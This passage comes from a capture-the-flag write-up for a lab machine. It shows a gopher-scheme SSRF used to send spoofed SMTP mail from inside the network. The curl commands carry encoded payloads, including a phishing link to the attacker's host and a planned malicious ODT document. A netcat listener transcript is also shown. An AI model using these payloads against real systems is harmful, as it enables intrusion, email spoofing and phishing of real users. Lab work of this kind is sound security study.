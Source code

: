 Circling back the email we got from the samba share, we know the following:
```
- Jocelyn really likes to click on stuff
- From now on important documents will only be sent internally, by mail 
- Preferably in odt format because they use LibreOffice
- Tom is working on an unfinished Proxy, for which the access is restricted via <Limit>
```

The proxy thing is running on Apache
```bash
curl -I http://proxy.gofer.htb/
HTTP/1.1 401 Unauthorized
Date: Sun, 13 Aug 2023 17:56:10 GMT
Server: Apache/2.4.56 (Debian)
WWW-Authenticate: Basic realm="Restricted Content"
Content-Type: text/html; charset=iso-8859-1
```

So some quick google dorking and we find the following, [which](https://httpd.apache.org/docs/2.4/mod/core.html#limit) would explain why we can access the index.php thing with any method except GET.  

So if important document will on be sent internally by mail, and we have this SSRF where we can leverage gopher, we can send SMTP payloads through it, which will technically come from the internal network. All that's left to do is to fin and send her a `bad.odt`

[Here](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)'s an example of how to send an SMTP payload through a gopher SSRF. let's just adapt it a little to work on our own machine. Note that of course it's easy to infer the mail address for Jocelyn since we know her familly name from the homepage.  

Bouncing a test payload back to my own machine:
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:25/_HELO%252010%252E10%252E14%252E218%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250AYou%2520didn%2527t%2520say%2520the%2520magic%2520word%2520%2521%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
```
Looks good
```bash
nc -lknp 25
HELO 10.10.14.218
MAIL FROM:<dnedry@gopher.htb>
RCPT TO:<jhudson@gopher.htb>
DATA
From: [Dennis Nedry] <dnedry@gopher.htb>
To: <jhudson@gopher.htb>
Date: Sun, 13 Aug 2023 18:20:26 -0400
Subject: AH AH AH

You didn't say the magic word !


.
QUIT
```
Improving that just a little bit and put a clickable link in the email to satisfy jocelyn's urges
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://10.10.14.218:25/_HELO%252010%252E10%252E14%252E218%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gopher%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gopher%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2522http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2522%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
```